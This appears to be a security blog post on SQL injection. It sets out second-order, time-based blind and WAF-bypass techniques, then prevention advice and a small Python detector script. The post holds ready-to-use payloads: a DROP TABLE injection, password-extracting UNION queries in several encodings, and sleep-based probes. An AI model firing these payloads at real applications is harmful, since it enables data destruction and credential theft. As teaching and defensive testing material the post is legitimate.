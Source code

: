 ```yaml
---
layout: post
title: "Advanced SQL Injection Techniques in Modern Web Applications"
date: 2025-01-15 14:30:00 +0530
categories: Web Security
---
```


SQL injection remains one of the most critical vulnerabilities in web applications, despite being well-known for decades. In this post, I'll explore advanced SQL injection techniques that work against modern web applications and frameworks.

## Modern Challenges

Today's web applications often implement various protection mechanisms:

- Web Application Firewalls (WAFs)
- Prepared statements and parameterized queries
- Input validation and sanitization
- Modern framework protections

However, vulnerabilities still exist, and attackers have developed sophisticated techniques to bypass these protections.

## Advanced Techniques

### 1. Second-Order SQL Injection

This technique involves injecting malicious SQL code that gets stored in the database and executed later when the data is retrieved and used in another SQL query.

```sql
-- Initial injection (stored in user profile)
'; DROP TABLE users; --

-- Later executed when profile data is used
SELECT * FROM posts WHERE author = ''; DROP TABLE users; --'
```

### 2. Blind SQL Injection with Time Delays

When error messages are suppressed, time-based attacks can be effective:

```sql
'; IF (SELECT COUNT(*) FROM users WHERE username='admin') = 1 WAITFOR DELAY '00:00:05'; --
```

### 3. WAF Bypass Techniques

Modern WAFs can often be bypassed using various encoding and obfuscation techniques:

```sql
-- URL encoding
%27%20UNION%20SELECT%20null%2C%20password%20FROM%20users%20--%20

-- Double encoding
%2527%2520UNION%2520SELECT%2520null%252C%2520password%2520FROM%2520users%2520--

-- Case variation
' uNiOn SeLeCt null, password FrOm users --
```

## Prevention Strategies

### 1. Parameterized Queries
Always use parameterized queries or prepared statements:

```python
# Secure approach
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))

# Vulnerable approach
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")
```

### 2. Input Validation
Implement strict input validation:

```python
import re

def validate_user_input(user_input):
    # Allow only alphanumeric characters
    pattern = re.compile(r'^[a-zA-Z0-9]+$')
    return pattern.match(user_input) is not None
```

### 3. Least Privilege
Database users should have minimal necessary permissions:

```sql
-- Create restricted user
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT, UPDATE ON webapp_db.* TO 'webapp'@'localhost';
-- Do NOT grant DELETE, DROP, or administrative privileges
```

## Testing Tools

I've developed several tools for SQL injection testing:

### SQLi Detector
A Python script that automates SQL injection detection:

```python
import requests
import time

def test_time_based_sqli(url, param):
    payloads = [
        "'; WAITFOR DELAY '00:00:05'; --",
        "' OR SLEEP(5); --",
        "' || pg_sleep(5); --"
    ]
    
    for payload in payloads:
        start_time = time.time()
        response = requests.get(url, params={param: payload})
        response_time = time.time() - start_time
        
        if response_time > 5:
            return True, payload
    
    return False, None
```

## Real-World Examples

In my penetration testing engagements, I've discovered SQL injection vulnerabilities in:

1. **E-commerce Platforms**: Injection in product search functionality
2. **CMS Systems**: Vulnerabilities in admin panels
3. **Custom Applications**: Poor input validation in forms
4. **API Endpoints**: JSON-based SQL injection

## Conclusion

SQL injection continues to be a significant threat. While modern frameworks provide better protection, developers must remain vigilant and implement proper security measures. Regular security testing and code reviews are essential.

## References

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PortSwigger SQL Injection Labs](https://portswigger.net/web-security/sql-injection)

---

*This post is part of my ongoing security research. All examples are for educational purposes and should only be used in authorized penetration testing environments.*
